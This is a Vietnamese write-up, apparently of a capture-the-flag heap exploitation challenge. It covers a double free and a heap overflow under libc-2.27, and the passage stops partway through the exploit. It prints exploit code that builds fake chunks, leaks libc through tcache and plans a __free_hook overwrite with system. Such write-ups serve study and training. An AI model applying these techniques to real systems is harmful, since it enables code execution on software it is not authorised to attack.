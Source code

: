 **1.Find bug
  - ![image](https://user-images.githubusercontent.com/113702087/220030510-859dae24-8668-41e8-9bde-a9f9eaab5c06.png)
  - PIE và Fortify tắt.
  - ![image](https://user-images.githubusercontent.com/113702087/220022145-4c49d73e-b46c-4791-91fe-aef24fdd12c1.png)
  - chương trình thực hiện nhập name tại 0x602060 và thực thi read data trên heap được cấp phát tại 0x602088, tuy nhiên giới hạn của việc free là 8 lần.
  - Tại hàm info ta có thể in ra name.
  - do libc-2.27 nên ta có thể double free đê gây lỗi uaf.
  - ![image](https://user-images.githubusercontent.com/113702087/220031133-961eedfe-ec72-4ba1-bf49-77ac6223b435.png)
  - ta có thể thấy rằng khi tại hàm Malloc() nó thực hiện read_input(ptr, uint(size - 16)) nếu size < 16 thì có thể read với size lớn gây lỗi heap overflow.
  - Dựa vào các lỗi trên ta có thể leak libc = cách đưa addr libc vào tcache và giải phóng name lúc đó name -> libc, lúc này ta dùng info để leak libc ra. Khi có libc thì có thể overwrite free_hook thành system
  - ta sẽ chọn địa chỉ name+16 là fake chunk và libc là stderr
**2. Exploit**
 # Leak libc
  - Để đưa libc và fakechunk về cùng 1 chunk thì ta cần control size = 0x90 của chunk, với fakechunk thì khá dễ vì ta có thể control nó bằng cách nhập từ name
  - Tạo 4 chunk và giải phóng nó.
  ```
  malloc(size_, b'a')
  freeandinfo(b'2')
  freeandinfo(b'2')
  malloc(size_ + 24, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 40, b'aaaa')
  freeandinfo(b'2')
  malloc(size_ + 56, b'aaaa')
  freeandinfo(b'2')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220047525-8f9171a4-f8eb-4f37-9ea9-f344ff47e241.png)
  - chunk đầu ta sẽ dùng double free, overflow nó để control các chunk dưới, và chứa lbic_stderr+30 để control size libc_stderr
  - chunk 2 ta đưa stderr, cấp phát vào stderr và thay đổi nó thành libc_stderr-0x30 thay đổi stderr ở chunk 1
  - chunk 3 đưa fakechunk vào để có thể free vào chunk mong muốn ( ở đây là chunk chứa libc)
  - chunk 4 cũng là fakechunk để ta có thể control được ptr vì chương trình đã giới hạn việc free.
  - setup các chunk
  ```
  payload = p64(stderr) + b'\x00'*16 + p64(0x31) + p64(stderr) + b'\x00'*32 + p64(0x41) + p64(name_addr + 16) + b'\x00'*48 + p64(0x51) + p64(name_addr + 16)

  malloc(size_, payload)
  malloc(size_ + 24, b'a')
  malloc(size_ + 24, b'\x50')
  malloc(size_, b'a')
  malloc(size_, b'a')
  ```
  - ![image](https://user-images.githubusercontent.com/113702087/220051030-a5ac7daf-cc2e-4fc3-a0a0-d91c349660ab.png)
  - thay đổi size libc_stderr và đưa vào tcache_c
  ```
  payload = b'\x00'*40 + p64(0x91)
  malloc(size_, payload)
  malloc(size_ + 24, b'\x87')
  freeandinfo(b'2')
  ```
  - 
